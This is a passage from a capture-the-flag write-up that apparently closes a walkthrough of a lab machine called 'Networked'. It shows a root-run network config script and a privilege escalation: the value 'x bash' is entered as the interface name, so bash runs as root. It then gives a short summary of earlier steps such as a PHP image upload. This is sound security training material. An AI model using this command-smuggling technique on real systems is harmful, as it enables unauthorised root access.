 ```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

`Guly` can execute `/usr/local/sbin/changename.sh` as `root` without a password. We see that this script will try to add a new network device named guly0.

```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
x bash
interface PROXY_METHOD:
x
interface BROWSER_ONLY:
x
interface BOOTPROTO:
x
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
0a8ecda8************************
```

Looking at `/etc/sysconfig/network-scripts/ifcfg-guly` we can see `NAME=test bash`. This variable is read and instead of having `test bash` as the value bash will be executed. We're running the script as `root` so we get `bash` running as `root`.

## TL;DR

- Upload image with PHP code
- User has a script in crontab that we can abuse
- User can run script as root
